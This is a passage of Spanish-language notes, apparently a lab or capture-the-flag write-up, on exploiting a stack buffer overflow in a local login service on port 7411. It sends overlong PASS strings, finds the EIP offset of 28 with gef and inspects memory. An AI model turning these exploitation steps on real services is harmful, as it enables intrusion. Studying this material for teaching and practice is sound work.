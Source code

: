     - lanzamos el script otra vez y pegamos los caracteres

        ```bash
        nc localhost 7411
        OK Ready. Send USER command.
        USER admin
        OK Send PASS command.
        PASS aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
        ```

    - el programa peta una vez mas pero el valor del `$eip` a cambiado. Miramos el offset con el commando

        ```bash
        gef➤  pattern offset $eip
        [+] Searching for '$eip'
        [+] Found at offset 28 (little-endian search) likely
        ``` 

        Aqui vemos que tenemos que entrar 28 caracteres antes de sobre escribir el **eip**.

    - Probamos con 28 A y 4 B.

        ```bash
        python -c '28*"A"+4*"B"'
        AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

        nc localhost 7411
        OK Ready. Send USER command.
        USER admin
        OK Send PASS command.
        PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
        ```

    - añadimos 4 C para saber donde caen la cosas despues del **eip**

        ```bash
        python -c '28*"A"+4*"B"+8*"C"'
        AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCC

        nc localhost 7411
        OK Ready. Send USER command.
        USER admin
        OK Send PASS command.
        PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCC
        ```

1. Miramos lo que hay en la direccion de la variable userpass

    - lo miramos en forma normal

        ```bash
        gef➤  x/s 0xffffd140
        #Output
        0xffffd140: 'A' <repeats 28 times>, "BBBBCCCCCCCC"
        ```
